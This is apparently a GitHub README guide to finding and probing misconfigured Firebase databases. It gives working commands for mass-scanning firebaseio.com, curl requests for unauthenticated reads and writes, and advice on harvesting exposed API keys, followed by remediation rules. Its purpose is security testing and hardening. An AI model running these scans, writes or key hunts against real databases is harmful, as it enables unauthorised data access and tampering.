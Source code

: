 # 🔥 Firebase Hacking & PoC Testing

## 🚀 Introduction

Firebase is a cloud-based platform that provides backend services such as databases, authentication, and storage for web and mobile applications. However, misconfigured Firebase databases can lead to serious security vulnerabilities, allowing unauthorized users to read and write data. This guide will walk you through the process of identifying and testing Firebase vulnerabilities step by step.

---

## 🕵️‍♂️ Step 1: Finding Firebase Subdomains

First, find subdomains associated with Firebase under `*.firebaseio.com`. You can use tools like:

- Subfinder
- Amass
- Assetfinder
- FOFA, Shodan, ZoomEye (search engines)

Example queries:

```
FOFA Query: "domain=firebaseio.com"
Shodan Query: "http.title:Firebase"
ZoomEye Query: "site:firebaseio.com"
```

### 🔍 Automated Command to Find Live and Accessible Firebase Subdomains

```bash
subfinder -d firebaseio.com -t 50 | awk '{print $0"/.json"}' | httpx -status-code -mc 200
```

or directly to check one

```bash
echo https://<subdomain>.firebaseio.com | awk '{print $0"/.json"}' | httpx -status-code -mc 200
```

This command will:
1. Find Firebase subdomains using `subfinder`.
2. Filter only live subdomains responding with HTTP `200` using `httpx`.
3. Check if the Firebase database is accessible by sending a `GET` request to `/.json`.
4. Print only the domains that return `200 OK`.

---

## 🛠 Step 2: Testing if Firebase is Accessible

Once you have a subdomain, check if it's publicly accessible by sending a GET request using `curl`:

```bash
curl -X GET https://<subdomain>.firebaseio.com/.json -H "Content-Type: application/json" -i
```

If the response includes `200 OK` and returns JSON data, the Firebase database is misconfigured and allows public read access.

---

## ✍️ Step 3: Testing for Unauthenticated Write Access

Try sending a write request to check if the Firebase database allows unauthenticated write access:

```bash
curl -X POST https://<subdomain>.firebaseio.com/.json \
     -d '{"test":"subhashis_exploit_poc"}' \
     -H "Content-Type: application/json"
```

If the request is successful and data is written, the Firebase database is vulnerable to **unauthenticated write access**.

---

## 🔑 Step 4: Finding Firebase API Keys

Another method to test Firebase security is by searching for Firebase API keys. You can look for keys in:

- Public GitHub repositories (`AIzaSy` pattern)
- JavaScript files of web applications
- Mobile application decompilation

Example Firebase API key: `AIzaSyDluKZPdsuwxICZvjKi43I7KLLgAHGtxxx`

### 🔍 Testing API Key for Authentication

Use a token generator like [subhashis360.github.io/idtokengenarate](https://subhashis360.github.io/idtokengenarate):

1. Paste the API key.
2. Click **Sign Up**.
3. If you receive a valid token, the API key is vulnerable.

---

## 🔒 How to Fix It

### ✅ Secure Firebase Database:

1. Open Firebase Console.
2. Navigate to **Database > Rules**.
3. Update the rules to restrict access only to authenticated users:

```json
{
  "rules": {
    ".read": "auth != null",
    ".write": "auth != null"
  }
}
```

### 🔍 Audit Subdomains:

- Ensure no publicly accessible Firebase databases exist.
- Check for outdated or unused Firebase projects.

### 📊 Monitor Activity Logs:

- Use Firebase’s built-in logging to monitor access and detect unusual activity.
- Enable **Cloud Logging** and **Cloud Monitoring** to track API requests.

---

## 🛑 Disclaimer

This guide is for **educational purposes only**. Unauthorized access to Firebase databases without permission is illegal and may result in severe consequences. Always obtain proper authorization before performing security tests.

---

## 🤝 Conclusion

Misconfigured Firebase databases pose serious security risks. By following the steps above, you can identify vulnerabilities and take corrective actions to secure Firebase applications. Happy hacking responsibly! 🛡
